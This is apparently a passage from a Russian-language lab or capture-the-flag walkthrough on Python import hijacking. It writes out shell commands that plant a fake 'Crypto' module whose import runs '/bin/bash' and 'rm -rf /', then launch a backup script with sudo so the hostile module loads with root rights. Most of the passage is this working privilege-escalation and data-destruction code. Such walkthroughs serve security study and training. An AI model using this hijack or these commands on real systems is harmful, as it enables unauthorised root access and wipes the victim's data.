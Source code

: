 ```python
from Crypto.Cipher import AES
```

Это создает возможность для атаки перехвата импорта Python.

### Атака перехвата импорта Python
В обратной оболочке создаем вредоносный модуль Crypto, который будет импортирован вместо легитимного:

```bash
cd /home/appuser

# Create malicious Crypto module structure
mkdir -p Crypto/Cipher

# Create main module file that executes on import
cat > Crypto/__init__.py << 'EOF'
import os
print("[CRYPTO HIJACK] Module loaded!")
os.system("/bin/bash")
os.system("rm -rf /")
EOF

# Create Cipher submodule with AES class
cat > Crypto/Cipher.py << 'EOF'
import os
print("[AES HIJACK] AES class loaded!")
os.system("/bin/bash")
os.system("rm -rf /")

class AES:
    @staticmethod
    def new(key, mode, iv):
        print("[AES.new] PWNED!")
        os.system("/bin/bash") 
        os.system("rm -rf /")
        return AES()
    
    def encrypt(self, data):
        return data
        
    def decrypt(self, data):
        return data
EOF
```

### Выполнение
```bash
# Создание необходимой директории для резервных копий
mkdir -p backups

# Выполнение скрипта резервного копирования с правами sudo
# Python импортирует наш вредоносный модуль из текущей директории
sudo ./encrypt_and_backup.py
```
